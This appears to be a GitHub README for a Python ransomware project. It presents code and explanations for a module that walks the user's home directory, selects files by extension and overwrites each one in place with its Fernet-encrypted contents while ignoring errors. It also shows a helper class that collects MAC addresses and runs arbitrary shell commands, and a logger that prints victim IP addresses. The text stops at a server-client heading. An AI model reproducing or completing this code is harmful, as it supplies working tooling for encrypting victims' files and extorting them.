 # RANSOMWARE
Ransomware is a type of malicious software often used to encrypt files on a user's computer and demand a ransom to decrypt them.

## MODULES
### ENCDEC
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
- The `Process_Files` function takes two parameters: `Private`, a `Fernet` object used for encryption and decryption, and mode, a string specifying the operation mode (`encrypt` or `decrypt`).
- This function iterates through all files returned by the `List_Files` function.
- For each file, it creates a temporary file with the name of the original file appended with *.temp*.
- It opens the original file for reading and the temporary file for writing, with a buffer size of 4096*1024 bytes. It uses mmap to map the original file into memory. 
- Then it reads and processes each `chunk` of the original file, with the `chunk` size being 4096*1024 bytes.
- Each `chunk` is then encrypted (if mode is `encrypt`) or decrypted (if mode is `decrypt`) using the `Fernet` object, and then written to the temporary file.
- Once all chunks have been processed, the temporary file is renamed to the name of the original file, replacing the original file. If an error occurs during this process, the function will ignore the error and continue with the next file. 
- Finally, if the temporary file still exists, it will be deleted.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
- The function opens the file '*scripts/extensions.yaml*' for reading and uses the `Safe_Load(file)` function to parse *YAML* data from this file. The result is stored in the variable exts.
- It creates a dictionary `file_categories` with keys as categories from exts and values as empty lists. It also creates a dictionary extcategory where each file extension in `exts` is a key and its corresponding category is the value.
- Then it iterates through all files in the user's home directory. If an entry is a file and its extension (converted to lowercase) is in `extcategory`, the file is added to the corresponding category in `file_categories`.
### SYSTEM
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |     Indicates whether the user is using the Windows operating system or not
    7 functions:
        Init()     |     Initializes the terminal to enable color usage
        Clear()    |     Clears the terminal
        Title()    |     Sets the title of the terminal, only applicable for Windows
        Size()     |     Sets the size of the terminal, only applicable for Windows
        Reset()    |     Restarts the current program
        Mac()      |     Retrieves the MAC address of the computer
        Command()  |     Executes a shell command on the computer's system
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```

- The `getattr` function is used to retrieve the value of the color attribute from the `Col` object.
- It creates a formatted string and prints the formatted string.

## SERVER - CLIENT